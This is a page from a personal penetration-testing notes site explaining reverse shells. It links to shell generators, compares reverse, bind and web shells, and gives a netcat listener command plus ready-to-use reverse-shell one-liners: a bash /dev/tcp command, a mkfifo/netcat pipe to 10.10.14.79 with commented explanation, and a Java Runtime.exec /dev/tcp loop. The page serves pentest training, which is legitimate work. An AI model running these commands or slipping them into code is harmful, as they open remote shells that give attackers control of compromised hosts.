

repository: amandaguglieri/hackinglife · page: reverse-shells/index.html · generator: mkdocs

---
title: Reverse Shells
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - pentesting
  - web
  - pentesting
  - reverse-shells
---
# Reverse shells

??? abstract "Resources to generate reverse shells"
    - [https://www.revshells.com/](https://www.revshells.com/)
    - [Netcat for windows 32/64 bit](https://github.com/int0x33/nc.exe) 
    - [Pentesmonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
    - [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) 
    - [SharpyShell](sharpyshell.md)

??? abstract "All about shells"
    | **Shell Type** | **Description** |
    | --- |  --- |
    | [`Reverse shell`](reverse-shells.md) | Initiates a connection back to a "listener" on our attack box.  |
    | [`Bind shell`](bind-shells.md)  | "Binds" to a specific port on the target host and waits for a connection from our attack box. |
    | [`Web shell`](web-shells.md)         | Runs operating system commands via the web browser, typically not interactive or semi-interactive. It can also be used to run single commands (i.e., leveraging a file upload vulnerability and uploading a `PHP` script to run a single command. |


**Victim's machine Initiates a connection back to a "listener" on our attacking machine box.** 

For this attack to work, first  we set the listener in the attacking machine using netcat.

```shell-session
nc -lnvp $port
# By default we will be listening in all network interfaces: 0.0.0.0
```

After that, on the victim's machine, you can launch the reverse shell connection. 

A Reverse Shell is handy when we want to get a quick, reliable connection to our compromised host. However, a Reverse Shell can be very fragile. Once the reverse shell command is stopped, or if we lose our connection for any reason, we would have to use the initial exploit to execute the reverse shell command again to regain our access.

## Seclist reverse shells

Located under `/usr/share/seclists/Web-Shells` folder. 



## SharpyShell

Go to [SharpyShell](sharpyshell.md).

## bash

```bash
bash -c 'bash -i >& /dev/tcp/$ipAttacker/$port 0>&1'
```

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.79 4321 >/tmp/f

# rm /tmp/f;
# Removes the /tmp/f file if it exists, -f causes rm to ignore nonexistent files. The semi-colon (;) is used to execute the command sequentially.

# mkfifo /tmp/f;
# Makes a FIFO named pipe file at the location specified. In this case, /tmp/f is the FIFO named pipe file, the semi-colon (;) is used to execute the command sequentially.

# cat /tmp/f |
# Concatenates the FIFO named pipe file /tmp/f, the pipe (|) connects the standard output of cat /tmp/f to the standard input of the command that comes after the pipe (|).

# /bin/sh -i 2>&1 |
# Specifies the command language interpreter using the -i option to ensure the shell is interactive. 2>&1 ensures the standard error data stream (2) & standard output data stream (1) are redirected to the command following the pipe (|).

# nc $ip <port> >/tmp/f
# Uses Netcat to send a connection to our attack host $ip listening on port <port>. The output will be redirected (>) to /tmp/f, serving the Bash shell to our waiting Netcat listener when the reverse shell one-liner command is executed

```



## java

```bash
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/$ipAttacker/$port;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```
